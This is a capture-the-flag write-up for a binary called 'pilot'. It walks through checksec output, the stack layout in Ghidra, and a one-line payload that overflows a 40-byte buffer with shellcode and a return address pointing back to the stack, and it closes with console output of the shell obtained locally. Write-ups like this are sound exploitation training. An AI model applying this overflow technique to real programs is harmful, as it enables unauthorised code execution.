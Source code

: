 # pilot Writeup

## Steps

1. Check security of file - NX disabled means stack is executable
```
$ checksec --file=pilot 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No Symbols        No    0               1               pilot
                                                                                                                                                            
```
2. To pop a shell we will write '/bin/sh' to the stack, add padding, and replace the return address with the location of the top of the stack - this location is provided
3. Look at the stack variable layout in ghidra
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         <UNASSIGNED>   <RETURN>
             undefined8        RAX:8          this                                    XREF[1]:     004009f4(W)  
             undefined1[32]    Stack[-0x28]   input                                   XREF[2]:     00400aa4(*), 
                                                                                                   00400acf(*)  
                             main                                            XREF[3]:     entry:004008cd(*), 00400de0, 
                                                                                          00400e80(*)  
```
The input starts writing to `Stack[-0x28]` which is int `40`, so the exploit will have `40 - len(shellcode)` of padding before the new return address
4. Capture the address provided and create the described payload
```
payload = shell_please + b'A' * (40-len(shell_please)) + p64(int(address, 16))
```

## Solution 
```
$ python3 ex_pilot.py 
[+] Starting local process './pilot': pid 15039
[*] Switching to interactive mode
[*]Command:$ ls
ex_pilot.py  pilot  pilot.md
$ w
 22:41:54 up 26 min,  2 users,  load average: 0.74, 1.05, 0.82
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
kali              -                22:16   25:37   0.00s  0.04s lightdm --session-child 13 24
kali              -                22:16   25:37   0.00s  0.38s /usr/lib/systemd/systemd --user
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './pilot' stopped with exit code 0 (pid 15039)
[*] Got EOF while sending in interactive                                          

```

